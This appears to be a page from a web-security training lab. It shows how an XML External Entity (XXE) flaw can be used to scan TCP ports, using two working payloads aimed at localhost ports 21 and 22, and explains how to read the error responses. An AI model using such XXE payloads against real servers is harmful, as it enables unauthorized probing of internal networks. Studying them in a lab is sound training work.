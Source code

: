 ```yaml
---
title: "TCP Port Scan"
weight: 40
---
```


{{% notice note %}}
We will do these exercises on the Basic XXE (`/basic-xxe.do`) page.
{{% /notice %}}

We can use XXE to perform port scanning by defining an external dtd as the server and port we want to check. In the following submission we are checking if the FTP port is open.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:21">]>

<doc>&xxe;</doc>
```

![](/static/img/connection_refused.png)

When we compare that response to the one below which checks to see if SSH is open we can clearly see the changes when a port is open/closed.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [
  <!ENTITY xxe SYSTEM "http://127.0.0.1:22">]>

<doc>&xxe;</doc>
```

![](/static/img/invalid_http.png)

You may see different responses if the port is open, so in general any response other than Connection Refused should be considered open.
